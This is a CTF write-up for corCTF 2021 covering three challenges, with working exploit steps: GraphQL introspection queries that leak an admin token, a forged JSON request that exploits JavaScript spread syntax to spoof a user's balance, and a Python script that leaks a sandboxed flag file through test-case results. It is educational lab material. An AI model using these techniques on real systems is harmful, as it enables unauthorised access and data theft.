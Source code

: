 ```yaml
---
title: "CTF - corCTF 2021"
categories: [ctf]
date: 2021-09-02
comments: true
image: /images/kashmir.png
description: CTF - corCTF 2021
favicon: /images/favicon.ico
---
```


# corCTF 2021

<p align="center">
  <img src="/images/writeups/corCTF2021/logo.png" width="30%"/>
</p>

Welcome! I've participated on my own in this CTF for team [ISwearIGoogledIt](https://ctftime.org/team/109689) and got some challenges! I focused on the web ones, but had two from crypto and one from misc. I enjoyed the web ones, learned a lot from graphql and javascript and its spread syntax.

<p align="center">
  <img src="/images/writeups/corCTF2021/rank.png" width="70%"/>
</p>

---

Challenge index:

### Web
- [devme](#devme)
- [buyme](#buyme)

### Misc
- [yeetcode](#yeetcode)

<small><i><a href="https://github.com/kashmir54/md-toc">Table of contents generated with md-toc</a></i></small>


---

# Web

## devme

an ex-google, ex-facebook tech lead recommended me this book!

https://devme.be.ax


First thing was to check the functionality of the website and I fond this interesting. With the email sent, the JS makes a call to a graphql endpoint which takes a JSON as an input with the name/email:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_formjs.png" width="70%"/>
</p>

```javascript
document.getElementById('form').onsubmit = async e => {
  e.preventDefault();

  const email = document.getElementById('email').value;

  let res = await (await fetch('/graphql', {
	method: 'POST',
	headers: {
	  'Content-Type': 'application/json'
	},
	body: JSON.stringify({
	  query,
	  variables: { email }
	})
  })).json();

  if (res.data) {
	document.getElementById('form-wrapper').innerHTML = `<h2 class="form-heading 
			text-center">Thanks, you'll hear from us soon!</h2>`
  }

  return false;
}
```

For the first run I debugged the JS and res variable was:

username: "bb0b9d32cdba541ee0bf7ea8acc5b166e09c429a5493f15a2cae714b15f84d33"

Other run obtained

username: "e17fb2b1415f1a670810aa54e23042818fdd93d4e873f7e2c07c421ea598acc7"


Seems like the Graphql is executing the query set on the parameter?

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_token.png" width="90%"/>
</p>

I prepared the following payload in BurpSuite and sent it to the server:

- Query:

```
query "mutation createUser($email: String!) {\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n"
variables {…}
email "test@test.com"
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

Yes it does. I have never used Graphql so I had to get a grasp of it with the [documentation](https://graphql.org/learn/queries/) to understand what's going on and how it works.
Current query send every time is this one:

```json
{
	"query" : "mutation createUser($email: String!){\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n",
	"variables" : {"email" : "test@test.com"}
}
```

To enumarate the objects in the API we can use the following query. [HackTricks always helps](https://book.hacktricks.xyz/pentesting/pentesting-web/graphql) and I also saw it on this [great write up](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/):

- Query:

```json
{
	"query":"{__schema{\n\t queryType{\n\t fields{\n\t name\n}\n}\n}\n}",
	"variables":{"email":"test@test.com"}
}
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

We can see the object flag. Let's work on crafting a payload to retrieve its content.
To get more information:

- Query:

```json
{
	"query":"{__schema {types {name}}}",
	"variables":{"email":"test@test.com"}
}
```

Response

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_2_graphql.png" width="90%"/>
</p>

Let's retrieve the users by the username (since we saw that the response to create user was a user hash):

- Query:

```json
{
	"query":"{users {username}}",
	"variables":{"email":"test@test.com"}
}
```

Response:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_3_graphql.png" width="90%"/>
</p>


Okey, now I know something more about Graphql. Following the same syntax, I will try to obtain the content from flag:

- Query:

```json
{"query":"{flag}"}
```

Response Error:

```json
{
	"message":"Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided."
}
```

From the message we suppose that there is a token that will be used to obtain the flag... What if the user _admin_ had two attributes _username_ and _token_? Let's give it a try:

- Query:

```json
{"query":"{users {username token}}"}
```

Response:

```json
{"data":{
  "users":[
	{
	  "username":"admin",
	  "token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
	},
	{
	  "username":"b82d9af8a6226c072bcd811e7a009ffb36b2ad88be67ac396d170fe8e2f1de7c",
	  "token":"5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
	},
	{"...":"..."}
```

Now let's try to retrieve the flag using the admin token:

- Query:

```json
{
  "query":"{flag(token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}
```

Response:

```json
{"data":{"flag":"corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"}}
```

We have the flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_7_burpflag.png" width="90%"/>
</p>


``` corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} ```


Great, I could learn how GraphQL works and wanted to go further. Now that I have understood how it works and how to enumerate manually. I found a tool from [swisskyrepo](https://github.com/swisskyrepo) similar to sqlmap, it's called [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).
I saw how it works and makes the recon task so much easier:

```
python3 graphqlmap.py -u https://devme.be.ax/graphql -v --method POST 
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_4_graphqlmap.png" width="70%"/>
</p>

Not only enumerate, but also interact with the API:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_5_graphqlmap.png" width="70%"/>
</p>

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="70%"/>
</p>


```corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}```


## buyme
I made a new site to buy flags! But no hoarding, okay :<

I enjoyed this one so much! So let's dive in:

We land into a website where we can register, log in and buy flags. By default, we have 100$ and buy four flags, but not the one we want, the CTF flag.

<div display="grid">
  <img src="/images/writeups/corCTF2021/Web/2_01.png" width="48%"/>
  <img src="/images/writeups/corCTF2021/Web/2_02.png" width="48%"/>
</div>

They provided us the code, so I took a look into it. Most interesting parts were:

- The access to the flag storage and the buying process:

```javascript
const fs = require("fs");

const flags = new Map();
for(let flag of JSON.parse(fs.readFileSync("flags.json")).flags) {
	if(flag.name === "corCTF") {
		flag.text = process.env.FLAG || "corctf{test_flag}";
	}
	flags.set(flag.name, flag);
}

const users = new Map();

const buyFlag = ({ flag, user }) => {

	if(!flags.has(flag)) {
		throw new Error("Unknown flag");
	}
	if(user.money < flags.get(flag).price) {
		throw new Error("Not enough money");
	}

	user.money -= flags.get(flag).price;
	user.flags.push(flag);
	users.set(user.user, user);
};

module.exports = { flags, users, buyFlag };
```

- The api.js where the content is served:

```javascript
const express = require("express");
const bcrypt = require("bcrypt");

const router = express.Router();

const db = require("../db.js");

const requiresLogin = (req, res, next) => {
	if(!req.user) {
		return res.redirect("/?error=" + encodeURIComponent("You must be logged in"));
	}
	next();
};

router.post("/register", async (req, res) => {
	let { user, pass } = req.body;
	if(!user || !pass) {
		return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
	}
	if(db.users.has(user)) {
		return res.redirect("/?error=" + encodeURIComponent("A user already exists with that username"));
	}
	db.users.set(user, {
		user,
		flags: [],
		money: 100,
		pass: await bcrypt.hash(pass, 12)
	});
	res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
	res.redirect("/");
});

router.post("/login", async (req, res) => {
	let { user, pass } = req.body;
	if(!user || !pass) {
		return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
	}
	if(!db.users.has(user)) {
		return res.redirect("/?error=" + encodeURIComponent("No user exists with that username"));
	}
	if(!await bcrypt.compare(pass, db.users.get(user).pass)) {
		return res.redirect("/?error=" + encodeURIComponent("Incorrect password"));
	}

	res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
	res.redirect("/");
});

//Special attention here:
router.post("/buy", requiresLogin, async (req, res) => {
	if(!req.body.flag) {
		return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
	}
	try {
		db.buyFlag({ user: req.user, ...req.body });
	}
	catch(err) {
		return res.redirect("/flags?error=" + encodeURIComponent(err.message));
	}

	res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});

module.exports = router;
```

At the first glimpse I thought, maybe I can register with infinite money and buy the flag, but after some crazy ideas I found no way to exploit the user creation, no JSON inyection was possible in this piece of code:

```javascript
db.users.set(user, {
  user,
  flags: [],
  money: 100,
  pass: await bcrypt.hash(pass, 12)
});
```

Then I just focused on the buying process. And found this piece of code interesting, specially in the arguments and the [spread syntax (...)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax) with a user input after it (**req.body**):

```javascript
router.post("/buy", requiresLogin, async (req, res) => {
	if(!req.body.flag) {
		return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
	}
	try {
		//Buying a flag with spread argument controlled by a user
		db.buyFlag({ user: req.user, ...req.body });
	}
	catch(err) {
		return res.redirect("/flags?error=" + encodeURIComponent(err.message));
	}

	res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
```

Let's check the request when we buy the Indian flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_03.png" width="70%"/>
</p>

We can see that a POST request is sent with variable user equals to the user obtained in the session and the _flag=India_ set in the resquest body. Then, the buyFlag function is called.

```javascript
const buyFlag = ({ flag, user }) => {

	if(!flags.has(flag)) {
		throw new Error("Unknown flag");
	}
	if(user.money < flags.get(flag).price) {
		throw new Error("Not enough money");
	}

	user.money -= flags.get(flag).price;
	user.flags.push(flag);
	users.set(user.user, user);
};
```

I started thinking... Maybe I can spoof the user object at the call **{ user: req.user, ...req.body }** by adding in the body request a key called **user**, then this **user** will be the last at the function called and will substitute the one provided at the beginning. 

The key for this challenge is how we send that information. I'm currently learning and it took me some thinking for this. I used Burp Suite Repeater for this attack and to test different options or ideas. In this process I used the provided code to deploy the web server and to debug the payload type and how the payload was injected in the spread syntax.

First I tried the following payload, but no effect took placed because req.body won't parse the user and place it as it is:

```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/x-www-form-urlencoded
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

flag=corCTF&user={}

or 

flag=corCTF&user={"kash":{"flags":[],"money":10000000000000000000000000000,
  "pass":"$2a$12$e6.1cSQ4ynSUXDTN5HvkN.RlAqWDOtOqHL3twe/wRD77MBKKELJZO"
}}
```

Then while debugging I found the key, sending an object. How? Instead of sending parameters and strings, let's send a JSON object. To do it, I changed the header Content-Type from _x-www-form-urlencoded_ to _application/json_ and spoof of money variable and set it to **1e400** for example:


```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/json
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

{"flag":"corCTF",
	"user":{
		"user": "kash",
		"flags": [],
		"money": 1e400,
		"pass":"$2b$12$e4fanJaZOX1pwZTVxsHcZOIuGp.3Ti27FtVnesFrURw4eSWfY6aGi"
	}
}
```

We can see that the request is responding flag bought successfully.
<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_0.png" width="70%"/>
</p>

We can go to my flag inventory and saw the flag (it shows two because I sent the request twice):

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_1_flag.png" width="70%"/>
</p>

``` corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!} ```

Really fun and learned a lot.

---

# Misc

## yeetcode
Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt
https://yeetcode.be.ax

We enter in the website and find that there is a challenge for coding:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="70%"/>
</p>

With the following input (python code that meets the requirements), it shows that there are 10 test cases:

```python
def f(a, b):
  return a+b
```

- Message: You passed 10/10 test cases. Congrats!


On the provided code, we can see that there are two fixes test cases, the rest is random:

- Test 1: 2+3 = 5
- Test 2: 5+7 = 12

The provided code:

```python
from flask import Flask, render_template, request, session
import random, epicbox, os

# docker pull 

epicbox.configure(
	profiles=[
		epicbox.Profile('python', 'python:3.9.6-alpine')
	]
)

app = Flask(__name__)
app.secret_key = os.urandom(16)
flag = open('flag.txt').read()

@app.route('/')
def yeet():
	return render_template('yeet.html')

@app.route('/yeet')
def yeetyeet():
	return render_template('yeetyeet.html')

@app.route('/yeetyeet', methods=['POST'])
def yeetyeetyeet():
	if 'run' in session and session['run']:
		return {'error': True, 'msg': 'You already have code running, please wait for it to finish.'}
	session['run'] = True
	code = request.data
	tests = [(2, 3, 5), (5, 7, 12)]
	for _ in range(8):
		a, b = random.randint(1, 100), random.randint(1, 100)
		tests.append((a, b, a + b))
	
	cmd = 'from code import f\n'
	outputs = []
	for case in tests:
		a, b, ans = case
		cmd += f'print(f({a}, {b}))\n'
		outputs.append(str(ans))

	files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
	limits = {'cputime': 1, 'memory': 16}
	result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)

	if result['exit_code'] != 0:
		session['run'] = False
		return {'error': True, 'msg': 'Oops! Your code has an error in it. Please try again.'}
	actual = result['stdout'].decode().strip().split('\n')

	passes = 0
	fails = 0
	for i in range(len(outputs)):
		if outputs[i] == actual[i]:
			passes += 1
		else:
			fails += 1

	session['run'] = False
	return {'error': False, 'p': passes, 'f': fails}

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=5000)
```

We cannot just place a print in the code and print the flag, because there is no output, but we can access and read the flag to make operations over it.
Since there are two fixed set cases, we can use them to bruteforce each char of the flag whenever or code gets in that specific test. Then, we have contron on triggering the error only in one of the test cases, for example:

Bruteforece first char:
if test case 2+3 and first char is a, return correct response (5), if it is not a, send failed response
if test case is not 2+3, return the correct sum (a+b)

In this way, if the recieve 10/10 tests passed, we know that the guessed letter is correct, otherwise it wasn't.
The following code is proposed:

```python

import requests

def guess_it(flag_index):

	a, b = 97, 126

	for guess in range(a,b):

		print("Guess ascii: {} - {}".format(guess, chr(guess)))

		r = requests.post(url=url, data = input_code.format(flag_index, guess), cookies = cookie)
		#print(r.json())
		# If read char if right:
		if r.json()['p'] == 1:

			print('Found: ' + chr(guess))
			return chr(guess)

	return 0


input_code = """def f(a, b):
	if a==2 and b==3:
		f = open("flag.txt", "rb")
		char = f.read()[{}]
		if char == {}:
			return 5
		else:
			return 1234
	else:
		return a"""


url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
	flag.append(guess_it(flag_index))
	print(''.join(flag))
```

It will take so long to get it by using linear search O(n)... Let's go for an easy binary search strategy (and also, use all posible ascii characters (from 32 to 126)):

```python
import requests

def guess_it(flag_index):

	a, b = 32, 126
	mid = (a+b)//2

	while a < b:

		print("Guess ascii: {} - {}".format(mid, chr(mid)))

		r = requests.post(url=url, data = input_code.format(flag_index, mid), cookies = cookie)
		#print(r.json())
		# If read char if right:
		if r.json()['p'] == 1:
			b = mid
		else:
			a = mid + 1
		mid = (a+b)//2

	
	return chr(mid-1)


input_code = """def f(a, b):
	if a==2 and b==3:
		f = open("flag.txt", "rb")
		char = f.read()[{}]
		if char < {}:
			return 5
		else:
			return 1234
	else:
		return a"""

url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
	flag.append(guess_it(flag_index))
	print(''.join(flag))

```

Output:

```
...
corctf{1m4g1n3_cp_g0lf_6a318df
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 91 - [
Guess ascii: 97 - a
Guess ascii: 100 - d
Guess ascii: 102 - f
Guess ascii: 101 - e
corctf{1m4g1n3_cp_g0lf_6a318dfe
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 115 - s
Guess ascii: 121 - y
Guess ascii: 124 - |
Guess ascii: 125 - }
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
Guess ascii: 55 - 7
Guess ascii: 43 - +
Guess ascii: 37 - %
Guess ascii: 34 - "
Guess ascii: 33 - !
Guess ascii: 32 -  
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
```

So much faster now ;)

``` corctf{1m4g1n3_cp_g0lf_6a318dfe} ```


That's all from this CTF, thanks for reading!